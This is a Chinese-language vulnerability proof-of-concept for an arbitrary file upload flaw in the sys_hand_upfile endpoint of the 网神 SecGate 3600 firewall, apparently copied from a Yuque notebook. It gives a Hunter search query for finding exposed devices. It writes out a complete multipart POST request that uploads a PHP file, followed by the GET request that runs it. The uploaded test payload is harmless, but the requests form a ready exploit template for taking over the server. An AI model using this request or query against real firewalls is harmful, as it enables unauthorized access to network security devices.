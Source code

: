 # 网神SecGata 3600防火墙sys_hand_upfile任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(0, 0, 0);">网神 SecGate 3600 防火墙 sys_hand_upfile接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 网神SecGata 3600防火墙

# 三、资产测绘
    - hunter:`app.name="网神 SecGate"&&web.title=="网神SecGate 3600防火墙"`

![1691631315585-e71862e7-a889-460a-b2f7-a14e396c2f9b.png](./img/W5YK0CmTgjGYZMx7/1691631315585-e71862e7-a889-460a-b2f7-a14e396c2f9b-558082.png)

+ 登录页面

![1691631344474-a4ef0b41-65a2-4221-8212-3ca32e0b0b40.png](./img/W5YK0CmTgjGYZMx7/1691631344474-a4ef0b41-65a2-4221-8212-3ca32e0b0b40-349914.png)

# 四、漏洞复现
```plain
POST /?g=sys_hand_upfile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows 98; Trident/3.0)
Content-Length: 261
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=cmqfdwckb52z6zvzzjgm
Connection: close

--cmqfdwckb52z6zvzzjgm
Content-Disposition: form-data; name="upfile"; filename="7litvvzvnk.php"

<?php echo 111*111;unlink(__FILE__);?>
--cmqfdwckb52z6zvzzjgm
Content-Disposition: form-data; name="submit_post"

sys_hand_upfile
--cmqfdwckb52z6zvzzjgm--
```

![1706024999167-a34f561c-297b-47a9-a171-ec6bb308ca82.png](./img/W5YK0CmTgjGYZMx7/1706024999167-a34f561c-297b-47a9-a171-ec6bb308ca82-529354.png)

上传文件位置

```plain
GET /attachements/7litvvzvnk.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows 98; Trident/3.0)
Connection: close
Cookie: __s_sessionid__=jvdi0lqirs2c3ilvut5t2qluv6
Accept-Encoding: gzip, deflate
```

![1706025015329-f5902d0c-5062-41fc-96c5-2cbfe53ad317.png](./img/W5YK0CmTgjGYZMx7/1706025015329-f5902d0c-5062-41fc-96c5-2cbfe53ad317-870523.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zbdg597pe4ckn0gk>